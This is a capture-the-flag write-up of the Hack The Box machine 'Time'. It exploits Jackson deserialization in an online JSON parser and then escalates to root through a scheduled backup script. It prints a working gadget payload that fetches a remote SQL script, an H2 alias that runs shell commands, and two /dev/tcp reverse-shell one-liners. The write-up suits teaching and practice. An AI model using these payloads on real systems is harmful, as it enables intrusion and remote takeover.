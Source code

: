 ```yaml
---
coverY: 0
---
```


# 📦 HTB: Time – Deserialization, Java Shenanigans & Root in Style

<figure><img src="../.gitbook/assets/ChatGPT Image Jun 2, 2025, 09_27_03 AM.png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
_This medium-difficulty HTB box was a great lesson in one thing:_\
**Read the damn error. Then research it like your shell depends on it.**
{% endhint %}

### 🧭 Enumeration

#### 🔍 Nmap Scan

As always, I began with a full enumeration sweep:

```
nmap -Pn -n -A --reason -vvv -oN nmap/00-basic.txt -iL target.txt
```

**Findings:**

* **Port 22**: OpenSSH 8.2p1 (Ubuntu)
* **Port 80**: Apache 2.4.41 hosting a web server titled _"Online JSON Parser"_

### 🕸 Recon

The website was a **JSON beautifier** — harmless-looking, but CTFs don’t give you port 80 unless they want you to do _evil developer things_.

I ran `hakrawler` to check for juicy endpoints:

```
cat url.txt | hakrawler -proxy http://localhost:8080 -subs -d 5 -insecure -s -json >hakrawler.json
```

No admin panel. No hidden paths. But what caught my eye was how it **handled malformed JSON**...

### 💥 Exploitation – Jackson Deserialization RCE

Normal JSON works:

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

```
{"test":"hello"}
```

But malformed input returned this beauty:![](<../.gitbook/assets/ChatGPT Image Jun 2, 2025, 09_27_03 AM.png>)

> `Unhandled Java exception: com.fasterxml.jackson.databind.exc.MismatchedInputException`

> _Expected START\_ARRAY, got START\_OBJECT…_\
> &#xNAN;_"need JSON Array to contain As.WRAPPER\_ARRAY type information..."_

**Boom. Jackpot.**\
That’s **Jackson Deserialization**.



<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

I dug into this article that became my savior:\
🔗 [https://blog.doyensec.com/2019/07/22/jackson-gadgets.html](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html)

#### 🧪 Payload Time

```
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.8:8000/inject.sql'"}]
```

* 📄 `inject.sql` – Weaponized

```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
	String[] command = {"bash", "-c", cmd};
	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
	return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i >& /dev/tcp/10.10.14.8/4444 0>&1')
```

```
nc -lvnp 4444
```

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

💥 **Reverse shell obtained!**

### 🧍 Local Privilege Escalation – Timer Shenanigans

After running `linpeas`, I found something gold:

* /usr/bin/timer\_backup.sh run as root every 10 seconds

```
echo "bash -i >& /dev/tcp/10.10.14.8/9000 0>&1" > /usr/bin/timer_backup.sh
```

```
nc -lvnp 9000
```

📈 Got root. Simple, clean, and elegant.

{% embed url="https://www.hackthebox.com/achievement/machine/409699/286" %}

## References

* https://github.com/lorenzodegiorgi/jackson-vulnerability
* https://github.com/FasterXML/jackson/wiki/Jackson-Polymorphic-Deserialization-CVE-Criteria
* https://adamcaudill.com/2017/10/04/exploiting-jackson-rce-cve-2017-7525/
* https://www.youtube.com/watch?v=uS37TujnLRw
* https://blog.doyensec.com/2019/07/22/jackson-gadgets.html

## 🧠 Final Thoughts

What made **HTB: Time** stand out wasn’t the difficulty of the exploit. It was the **importance of interpreting Java errors and knowing what to Google.**

➡️ _Lesson:_ Sometimes the error **is** the clue.

This box was a smooth ride with:

* 🔍 Deep Java debugging
* 🧬 Deserialization abuse
* 📅 Scheduled script escalation

And that's a wrap! Time box — rooted. ✅
